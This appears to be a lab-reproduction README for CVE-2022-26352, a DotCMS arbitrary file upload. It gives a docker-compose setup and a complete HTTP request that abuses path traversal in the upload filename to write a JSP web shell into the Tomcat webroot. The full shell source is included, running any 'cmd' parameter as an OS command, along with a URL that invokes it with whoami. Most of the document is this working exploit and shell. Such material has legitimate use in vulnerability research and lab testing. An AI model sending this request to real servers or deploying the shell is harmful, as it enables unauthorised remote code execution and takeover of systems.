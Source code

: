 ### DotCMS Arbitrary File Upload  (CVE-2022-26352)

Reference:  https://blog.assetnote.io/2022/05/03/hacking-a-bank-using-dotcms-rce/	

#### Environment Setup

```
docker-compose up -d
```

visiting `https://your-ip:8443/dotAdmin` to see the login page.

#### Exploit

```
POST /api/content/ HTTP/1.1
Host: your-ip:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1152
Content-Type: multipart/form-data; boundary=------------------------aadc326f7ae3eac3
Accept-Encoding: gzip, deflate
Connection: close

--------------------------aadc326f7ae3eac3
Content-Disposition: form-data; name="name"; filename="../../../../../../../../../srv/dotserver/tomcat-9.0.41/webapps/ROOT/webshell.jsp"
Content-Type: text/plain

<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");
    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>
</pre>
</BODY></HTML>
--------------------------aadc326f7ae3eac3--
```

![1](1.png)

`https://your-ip:8443/webshell.jsp?cmd=whoami`

![2](2.png)
